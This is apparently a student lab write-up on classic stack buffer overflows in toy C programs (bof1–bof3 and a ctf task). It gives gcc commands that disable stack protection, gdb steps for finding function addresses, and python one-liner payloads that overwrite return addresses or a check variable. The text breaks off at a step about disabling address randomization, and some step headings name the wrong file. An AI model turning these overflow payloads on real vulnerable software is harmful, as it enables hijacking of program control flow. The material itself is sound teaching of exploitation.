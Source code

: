 # Lab 1 :

## bof1 :

![stackframe](/img/bof1.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof1 into gdb and observe secretFunc to get address

```
gdb bof1.out
```

```
disas secretFunc
```

![stackframe](/img/2.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846b

```
echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
```

#### 4.Result :

![stackframe](/img/3.png)

<br>

## bof2 :

![stackframe](/img/4.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof2 into gdb then exploits a buffer overflow vulnerability, overwriting the variable check in memory. After the input string is fed into the program, the value of check is changed from 0x04030201 to 0xdeadbeef, resulting in the program printing "Yeah! You win!".

```
gdb bof2.out
```

- When the input string exceeds the size of the buf array, it will overwrite the check variable. Since check has been changed to 0xdeadbeef, the if (check == 0xdeadbeef) condition will become true, and the program will print "Yeah! You win!".

```
echo $(python -c "print('a' *40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

#### 3. Result

![stackframe](/img/5.png)
<br>

## bof3 :

![stackframe](/img/6.png)
<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof3 into gdb and observe sup to get address

```
gdb bof3.out
```

```
disas sup
```

![stackframe](/img/9.png)
<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846e

```
echo $(python -c "print('a' *128 + '\x6e\x84\x04\x08')") | ./bof3.out
```

#### 4.Result :

![stackframe](/img/8.png)

<br>

## ctf :

![stackframe](/img/10.png)
<br>

#### 1. compile ctf.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. Adjust the system settings to disable address randomization
